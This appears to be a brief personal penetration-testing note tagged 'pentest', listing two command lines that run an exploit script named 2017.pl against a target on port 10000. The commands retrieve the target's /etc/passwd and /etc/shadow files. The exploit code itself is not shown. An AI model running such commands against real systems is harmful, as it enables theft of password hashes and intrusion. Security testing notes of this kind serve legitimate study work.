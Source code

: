 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### exploit 2017

```
./2017.pl $TARGET 10000 /etc/passwd 0 > passwd
```

```
./2017.pl $TARGET 10000 /etc/shadow 0 > shadow
```